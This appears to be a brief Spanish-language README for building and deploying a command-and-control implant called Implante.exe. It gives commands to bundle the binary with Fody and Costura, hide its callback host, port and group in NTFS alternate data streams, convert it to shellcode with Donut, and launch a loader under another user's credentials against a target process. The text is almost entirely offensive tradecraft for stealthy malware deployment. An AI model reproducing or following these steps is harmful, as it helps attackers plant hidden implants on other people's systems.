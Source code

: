 
Instalar using Newtonsoft.Json;

Instalar fody y costura.fody
```
dotnet add package Fody --version 6.8.0
dotnet add package Costura.Fody --version 5.7.0
```

Compilar

## Establecer host puerto y grupo
```powershell
Set-Content -Path ".\Implante.exe:Route" -Value "127.0.0.1"; Set-Content -Path ".\Implante.exe:Port" -Value "4000"; Set-Content -Path ".\Implante.exe:Group" -Value "Grupo"
```
Donut
```
.\donut.exe -a 2 -f 1 -i Implante.exe -o loader.bin
```


```
exec_as user password .\Loader.exe "process.exe" &
```